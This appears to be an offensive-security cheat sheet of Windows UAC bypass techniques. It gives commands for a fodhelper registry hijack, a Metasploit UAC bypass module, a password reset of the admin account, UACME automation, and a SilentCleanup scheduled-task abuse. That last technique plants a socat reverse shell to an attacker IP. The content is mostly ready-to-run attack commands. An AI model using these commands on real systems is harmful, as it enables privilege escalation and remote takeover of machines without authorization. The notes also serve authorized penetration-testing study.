 ## UAC Bypass
Try checking the integrity level  
```
whoami /groups (see last one)  
net user admin Ev!lpass (Access Denied?)(We are changing password of user admin) 
powershell.exe Start-Process cmd.exe -Verb runAs (We'll get UAC prompt)  
```
https://www.exploit-db.com/exploits/46998  
use exploit/windows/local/bypassuac_eventvwr

## Bypass 
Check for fodhelper.exe or any other binary that runs on high integrity - 
```
C:\Windows\System32\fodhelper.exe 
```
**Look for Application Manifest**
- sigcheck.exe -a -m "binary path"  
- Is AUTOELEVATE set to TRUE?(helps app to run on high integrity without UAC prompt)  
- requestedExecutionLevel level="requireAdministrator"?(only admin users are meant to run this)
Use PROCMON,
Filter > Process Name > binary name 
Filter > Operation > Reg  
Filter > Result > Not Found  
Is these there? then,  
Filter > Path > HKCU  
Find the path then -
```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f

whoami/groups
```

## For Sch Tasks
```
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM "/f

schtasks /run /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```
## AUTOMATION
```
https://github.com/hfiref0x/UACME 
C:\tools\UACME-Akagi64.exe 33
```

33  fodhelper.exe

34  DiskCleanup scheduled task

70 fodhelper.exe using CurVer registry key
